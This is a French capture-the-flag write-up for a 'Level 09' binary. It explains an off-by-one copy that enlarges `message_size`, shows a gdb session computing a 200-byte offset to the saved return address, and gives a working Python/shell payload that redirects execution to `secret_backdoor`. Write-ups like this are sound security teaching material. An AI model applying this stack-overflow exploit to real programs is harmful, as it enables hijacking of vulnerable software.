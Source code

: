# Level 09

Le programme lit 128 caractères et boucle de 0 à 40 **compris** (<=). Il copie chaque charactère du buffer dans le buffer de la structure taille 40. Si notre username fait plus de 40 caractères, il dépasse le buffer et écrit dans la prochaine variable nommée `message_size`.

Ensuite, il lit 1024 octets et assigne une taille spécifiée dans `message_size` à la variable `message` de la structure. Cependant, comme nous l'avons mentionné précédemment, cela va dépasser la taille de `message` de 140 octets et potentiellement écraser la sauvegarde de l'adresse de retour (saved RIP).

En premier lieu on donne un username d'une taille de 41 avec 255 au 41ème caractère pour écrire dans `message_size`.
Puis écrire l'addresse de la fonction `secret_backdoor` (0x000055555555488c).

Pour trouver l'offset de `rip` on va lancer gdb et remplir notre message de 42, après l'appel de strncpy on peut afficher l'adresse du `message` (0x7fffffffe440) et regarder où est stocké `rip` (rip at 0x7fffffffe508). On peut soustraire les deux adressses pour voir combien on doit écrire.

```
(gdb) x/32xg $rbp-192
0x7fffffffe440: 0x4242424242424242      0x4242424242424242
...
0x7fffffffe4f0: 0x4242424242424242      0x0042424242424242
0x7fffffffe500: 0x00007fffffffe5d0      0x0000555555554924
0x7fffffffe510: 0x000000000000000a      0x0000555555554c69
0x7fffffffe520: 0x00007ffff7ff7000      0x00007ffff7a94713
0x7fffffffe530: 0x00007ffff7dd4260      0x00007ffff7dd4260
(gdb) i f
Stack level 0, frame at 0x7fffffffe510:
 rip = 0x5555555549a2 in set_msg; saved rip 0x555555554924
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe500, args:
 Locals at 0x7fffffffe500, Previous frame's sp is 0x7fffffffe510
 Saved registers:
  rbp at 0x7fffffffe500, rip at 0x7fffffffe508
(gdb) p 0x7fffffffe508 - 0x7fffffffe440
$1 = 200
```

 - 0xff comme username
 - Un offset de 200 et l'adresse de `secret_backdoor`
 - Réouvrire la stdin

```bash
( \
	python -c 'print("\xff"*41)'; \
	python -c 'print("B"*200 + "".join([chr((0x000055555555488c >> (i * 8)) & 0xFF) for i in range(64/8)]))'; \
	cat \
) | ./level09
```
